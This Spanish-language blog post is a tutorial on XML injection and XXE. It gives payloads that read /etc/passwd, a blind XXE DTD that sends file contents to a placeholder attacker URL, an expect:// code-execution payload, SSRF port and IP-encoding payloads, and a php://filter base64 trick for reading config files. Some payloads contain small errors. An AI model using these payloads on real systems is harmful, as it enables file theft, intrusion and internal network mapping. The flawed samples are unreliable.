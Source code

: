 ```yaml
---
title: "XML Injection"
layout: post
date: 2022-05-17 15:00
image: /assets/images/xmli.png
headerImage: true
tag:
- web
- hacking
- xml
category: blog
description: Técnica de XML Injection
---
```


# XML Injection

Consulta normal
```
/example.php?xml=<test>hacker</test>
```

Consulta vulnerada
```
/example.php?xml=<!DOCTYPE foo [<!ENTITY xmli "testing">]><test>&xmli;</test>
```

**IMPORTANTE encodear los carácteres de la consulta**

# XML eXternal Entities - XXE

Es posible indicarle al parser XML un archivo externo para poder leerlo.
```xml
<!ENTITY name SYSTEM "URI">
```

Ejemplo
```xml
<!DOCTYPE message [
	...
	<!ENTITY xxefile SYSTEM "file:///etc/password">
]>
<message>
	<body>&xxefile;</body>
</message>
```

Petición
```xml
../example.php?xml=<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>
```

# Blind XXE Injection

En este caso es algo más complejo ya que el sistema tiene que tener acceso o visibilidad con el sistema del atacante.

La base de está vulnerabilidad está en la posibilidad de realizar peticiones por DTDs externos. Una manera simple de realizar una petición sería la siguiente:

exfill.dtd
```xml
<!ENTITY % file SYSTEM []"file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://[url atacante]/?x=%file;'>">
%eval;
%exfil;
```

Petición

```xml
../example1.php?xml=<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://[URL atacante]/exfil.dtd"> %xxe;]><test>hola</test>
```

# XXE to RCE - Remote Code Execution

Para poder hacer esto la aplicación tiene que tener habilitado el módulo ‘expect’ de PHP.

```xml
/example.php?xml=<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "expect://PWD">]>
<test>&xxe</test>
```

Adicionalmente se podría lograr con otro métodos, como por ejemplo el uso de la clase de **Java XMLDecoder** en el lado del servidor.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/04b2522f-d817-4aa7-928f-92b228ffac9d/Untitled.png)

# XXE + SSRF

## Server-side Request Forgery

Esta vulnerabilidad se da cuando la máquina vulnerada puede hacer peticiones a otras máquinas internas de la organización, mostrando de forma total o parcial el recurso en la web.

También permite mapear servicios existentes en la red del sistema.

## Como explotar

Una vez se ha identificado una inclusión de ficheros dentro de una aplicación web se puede intentar utilizar esta para acceder a recursos internos de la organización.

### Ejemplo vulnerable

```xml
vulnerable.com/index.php?url=index.php
```

### Payloads

-   http://[..]:80/
-   http://[..]:25/ SMTP
-   http://[..]:22/ SSH
-   http://[..]:3128/ SQUID
-   [http://2130706433/](http://2130706433/) = [http://127.0.0.1](http://127.0.0.1)
-   [http://3232235521/](http://3232235521/) = [http://192.168.0.1](http://192.168.0.1)

# Evasión de filtros

## Parameter Entitites + CDATA + DTD

## Uso de PHP + Base64

Si convertimos el contenido de un archivo a base64 podemos imprimir carácteres especiales que no son imprimibles mediantes XML.

```xml
php://filter/read=**convert.base64-encode**/resource=/path/to/config.php
```

# Recursos externos

## **Ampliación general sobre la explotación de XXE:**

[PayloadsAllTheThings/XXE Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

## Ampliación general sobre la explotación de SSRF:

[](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Requ)

## Tipos de inyecciones XXE:

[Lista de payloads para inyecciones XXE (XML External Entity)](https://www.hackplayers.com/2019/12/lista-de-payloads-para-inyecciones-xxe.html)